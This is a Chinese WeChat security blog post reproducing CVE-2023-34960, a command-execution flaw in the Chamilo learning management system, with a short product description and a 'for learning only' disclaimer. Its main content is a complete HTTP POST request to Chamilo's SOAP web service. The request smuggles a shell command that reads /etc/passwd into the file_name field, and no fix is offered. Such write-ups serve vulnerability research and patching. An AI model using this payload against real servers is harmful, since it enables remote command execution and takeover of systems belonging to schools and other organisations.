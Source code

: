 #  (CVE-2023-34960)｜Chamilo 命令执行漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#复现 15 个

#命令执行 4 个

#漏洞 23 个

#漏洞复现 29 个

**漏洞说明**

Chamilo是一种开源学习管理系统(LMS),用于改善世界各地的教育和知识的获取。这是一个全球人才管理系统，专注于易用性，速度和在线培训计划。它使用PHP,jQuery和MariaDB,可以与Apache或Nginx一起安装在GNU
/ Linux,macOS和Windows上，也可以与IIS一起安装 。

Chamilo是一个免费的软件在线学习平台，根据GNU / GPLv3许可，面对面，半面对面或虚拟学习的管理旨在改善全球范围内获得教育和知识的机会。

                                                                  ——————————以上说明来自星火大模型

Chamilo存在命令执行漏洞，恶意攻击者可以通过构造的xml文件任意命令，进而控制服务器。

 **影响版本**

  * 

    
    
     Chamilo

漏洞复现  

![](https://gitee.com/fuli009/images/raw/master/public/20230620103512.png)

paylaod：  

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /main/webservices/additional_webservices.php HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36Connection: closeContent-Length: 872Content-Type: text/xml; charset=utf-8Accept-Encoding: gzip, deflate  
    <?xml version="1.0" encoding="UTF-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="{http://ip:port}" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:wsConvertPpt><param0 xsi:type="ns2:Map"><item><key xsi:type="xsd:string">file_data</key><value xsi:type="xsd:string"></value></item><item><key xsi:type="xsd:string">file_name</key><value xsi:type="xsd:string">`{}`.pptx'|" |cat /etc/passwd||a #</value></item><item><key xsi:type="xsd:string">service_ppt2lp_size</key><value xsi:type="xsd:string">720x540</value></item></param0></ns1:wsConvertPpt></SOAP-ENV:Body></SOAP-ENV:Envelope>

![](https://gitee.com/fuli009/images/raw/master/public/20230620103551.png)

 **修复建议**

暂无  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

